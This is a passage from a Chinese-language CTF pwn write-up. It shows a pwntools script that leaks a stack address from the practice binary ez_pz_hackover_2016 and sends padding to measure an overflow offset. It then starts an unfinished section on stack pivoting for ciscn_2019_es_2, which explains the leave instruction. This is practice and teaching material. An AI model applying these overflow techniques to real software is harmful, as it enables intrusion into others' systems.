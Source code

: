 

找偏移：

```python
from pwn import *
context(log_level='debug')
io = process("./ez_pz_hackover_2016")
lic = ELF('./libc-2.23.so')
gdb.attach(io)
io.recvuntil("crash: ")
stack = int(io.recvuntil("\n",True),16)
io.recvuntil("> ")
payload = b'crashme\x00'
payload +="aaaaaaaaaaaaaa"
pause()
io.sendline(payload)
io.recv()
io.interactive()
```

![image-20210513164723456](0x10-0x1F.assets/image-20210513164723456.png)

上面这两个的偏移是固定的，两个相减，就可以通过chash得到aaaa的地址。







## 0x1C.ciscn_2019_es_2（未完成）

考点是栈迁移。

首先说下leve和ret

-   leave相当于：

    >   mov esp,ebp;
    >
    >   pop ebp;
